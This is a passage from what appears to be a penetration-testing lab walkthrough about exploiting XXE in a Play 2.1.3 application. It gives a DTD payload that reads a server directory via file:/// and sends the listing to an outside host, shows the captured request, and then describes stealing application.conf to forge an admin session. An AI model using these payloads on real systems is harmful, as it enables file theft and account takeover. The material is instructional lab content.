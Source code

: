 ```ruby
	nobody:x:65534:65534:nobody:/nonexistent:/bin/false
	tc:x:1001:50:Linux User,,,:/home/tc:/bin/sh
	pentesterlab:x:1000:50:Linux User,,,:/home/pentesterlab:/bin/sh
	play:x:100:65534:Linux User,,,:/opt/play-2.1.3/xxe/:/bin/false
	mysql:x:101:65534:Linux User,,,:/home/mysql:/bin/false
```
-->The home directory of this user is /opt/play-2.1.3/xxe/, there is a good chance that it's where the application is located.
-->Depending on the XML parser, it's also possible to retrieve the listing of a directory. The only way to see if it works is to try. Here we can modify the DTD file to point to /opt/play-2.1.3/xxe/:
```xml
<!ENTITY % p1 SYSTEM "file:///opt/play-2.1.3/xxe/">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.159.1:3001/BLAH?%p1;'>">
%p2;
```
-->And we can see the content of the directory:
```http
GET /BLAH?.gitignore%0A.settings%0Aapp%0Aconf%0Alogs%0Aproject%0Apublic%0AREADME%0ARUNNING_PID%0Atarget%0Atest%0A HTTP/1.1
```
-->Which again, can be decoded to:
```http
GET /BLAH?.gitignore
	.settings
	app
	conf
	logs
	project
	public
	README
	RUNNING_PID
	target
	test
	HTTP/1.1
```
-->Using this, you should be able to find conf/routes. Once you managed to retrieve this routes file, you should be able to access the secret URL.

## Tampering the session
-->Another important file for a Play application is the application.conf, this file contains the secret used to sign the session. This file is also available in the conf directory of the application. Once you have that file, you can easily sign your own session using the secret.
-->First, you need to retrieve the conf/application.conf file using what you saw above. The second step is to forge and sign your session using this secret. To do that we need a better understanding of what is in the session. We can leak the source code of the application to get a better understanding of the logic in place.
-->Based on the conf/routes file, we know that the method controllers.Application.login is called when we submit the login form. By convention, this code is available in app/controllers/Application.java (or .scala if it's a Play application using Scala).
-->Once we retrieved the source code of this controller, we can see that the session management is done by using a variable named user that gets put in the session:
```
	User user = User.findByUsername(username);
	      if (user!=null) {
	          if (user.password.equals(md5(username+":"+password) )) {
	            session("user",username);
	            return redirect("/");
```
-->We will need to forge a Play session that contains the variable user with the value admin.
-->If you looked at our other exercise on Play: [Play Session Injection](https://pentesterlab.com/exercises/play_session_injection), you may be surprised that the internals of Play's sessions have changed since.
-->The previous pattern was:
```
```